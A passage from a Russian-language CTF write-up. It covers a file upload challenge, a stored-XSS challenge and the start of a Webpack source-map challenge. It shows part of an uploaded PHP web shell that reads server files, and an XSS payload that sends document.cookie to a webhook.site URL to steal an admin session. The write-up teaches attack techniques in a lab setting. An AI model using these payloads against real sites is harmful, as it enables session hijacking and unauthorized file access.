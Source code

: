 ```php
                echo "[FILE] !!!! $item\n";
            } else {
                echo "[FILE] $item\n";
            }
        }
    }
}

$file_content = @file_get_contents($target_filepath);
if ($file_content === false) {
    die("Ошибка: Не удалось прочитать содержимое файла '$target_filepath'. Проверьте права доступа.");
}

// Вывод содержимого файла
echo "
======================================
  📜 СОДЕРЖИМОЕ ФАЙЛА '$target_filepath'
======================================\n";
echo htmlspecialchars($file_content);

echo "</pre>";
?>
```
После загрузки этого скрипта на сервер получаем содержимое флага и получаем флаг!  
<img width="1918" height="983" alt="image" src="https://github.com/user-attachments/assets/9e9ca1b9-a558-4b5e-b349-3f2d14718be5" />  
```Флаг: Gg9LRz-hWSxqqUKd77-_q-6G8```  


# XSS - Stockée 1  
## Украдите файл cookie сеанса администратора и используйте его для проверки события.  

При заходе на сайт, мы получаем такую форму  
<img width="1919" height="993" alt="image" src="https://github.com/user-attachments/assets/6006305e-4333-459d-aee8-38e897d43f81" />  
Так как в задании сказано про xss попробуем вызвать alert. Message: "**<script>alert('123);</script>**"  
<img width="1919" height="992" alt="image" src="https://github.com/user-attachments/assets/2a3b1fca-2bdb-4bc0-a030-4e0f8cfa000d" />  
Отлично! Мы имеем xss уязвимость. Так как у нас задание перехватить cookie админа, попробуем получить его с помощью скрипта, перенаправляющего пользователя на наш сайт, в url которого будут передаваться cookie пользователя, в надежде, что админ зайдет на него.  
Для этого получим ссылку на наш сайт через https://webhook.site/ и напишем небольшой скрипт ```<script>document.write('<img src="http://webhook.site/YOUR-UNIQUE-ID?cmd=' + document.cookie + '" width=0 height=0 border=0 />');</script>```. После подстановки 'YOUR-UNIQUE-ID' отправляю payload в поле _message_.  
Администратор зашел на сайт и мы получили его cookie!
<img width="793" height="76" alt="image" src="https://github.com/user-attachments/assets/ae74d2fa-d1bc-46dd-95d0-cab629a3bf9b" />  
```ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6```  

# Javascript - Webpack
## Найдите пароль.
При переходе на страницу, сразу смотрю исходный код. Замечаю, что все js лежат в директории **/static/js**
<img width="1919" height="272" alt="image" src="https://github.com/user-attachments/assets/ccd20e03-072a-4409-a6d7-14c7afe1abf1" />  
Перехожу в эту директорию и вижу файлы с расширением **.js.map** скачиваю первый из них. 
<img width="1105" height="952" alt="image" src="https://github.com/user-attachments/assets/a898d088-8f8d-4f96-ae66-5b6da06025ac" />  
Загружаю его на сайт **https://evanw.github.io/source-map-visualization/** для более удобного просмотра. 
```